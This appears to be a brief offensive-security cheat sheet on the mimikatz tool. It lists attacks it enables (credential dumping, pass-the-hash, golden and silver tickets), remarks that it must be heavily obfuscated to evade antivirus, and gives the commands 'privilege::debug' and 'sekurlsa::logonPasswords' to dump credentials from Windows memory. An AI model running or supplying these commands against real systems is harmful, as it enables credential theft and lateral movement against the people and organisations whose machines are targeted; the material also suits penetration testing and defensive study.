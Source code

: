 * Used to steal credentials, generate Kerberos tickets and leverage attacks.
* Dump credentials stored in memory.
* Just a few attacks: Credential Dumping, Pass the Hash, Over Pass the Hash, Pass the Ticket, Silver Ticket, Golden Ticket, etc.
* Easily detected by Antivirus though. Must be ridiculously obfuscated to work.
How to list modules:
```
privilege::
```
When using mimikatz, first thing to do is set privilege mode to debug.
```
privilege::debug
```
sekurlsa module:
```
sekurlsa::
```
Dumping local credentials using sekurlsa:
```
sekurlsa::logonPasswords
```
